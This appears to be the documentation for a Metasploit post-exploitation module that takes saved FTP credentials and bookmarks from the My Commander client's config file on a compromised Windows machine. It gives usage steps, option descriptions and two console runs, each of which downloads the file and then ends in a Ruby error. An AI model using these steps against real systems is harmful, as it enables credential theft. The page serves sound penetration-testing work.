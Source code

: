 ## Vulnerable Application

This post-exploitation module extracts clear text credentials from the My Comander FTP Client.

The My Commander FTP Client is avaialble from (https://myco.yonan.ro/).

This module extracts information from the myco.config file in the "AppData\Local\Yonan Research" directory.

This module extracts saved bookmarks.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/mycommander_ftp
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### My Commander Client v4.0 on Windows 10 Home 10.0.19045 N/A Build 19045 Default
```
msf6 post(windows/gather/credentials/mycommander_ftp) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] My commander's Myco.config file found
[*] Downloading C:\Users\test\AppData\Local\Yonan Research\My Commander\myco.config
[*] My commander Myco.config downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510165005_default_10.0.0.2_MyCommandermyco_391438.config

[*] undefined method `each' for nil:NilClass
[*] PackRat credential sweep Completed
[*] Post module execution completed
```

### My Commander Client v4.0 on Windows 10 Home 10.0.19045 N/A Build 19045 Verbose
```
msf6 post(windows/gather/credentials/mycommander_ftp) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] My commander's base folder not found in user's user directory

[*] Starting Packrat...
[*] My commander's base folder found
[*] Found the folder containing specified artifact for myco.config.
[*] My commander's Myco.config file found
[*] Processing C:\Users\test\AppData\Local\Yonan Research\My Commander
[*] Downloading C:\Users\test\AppData\Local\Yonan Research\My Commander\myco.config
[*] My commander Myco.config downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510165029_default_10.0.0.2_MyCommandermyco_977628.config

[*] undefined method `each' for nil:NilClass
[*] PackRat credential sweep Completed
[*] Post module execution completed
```
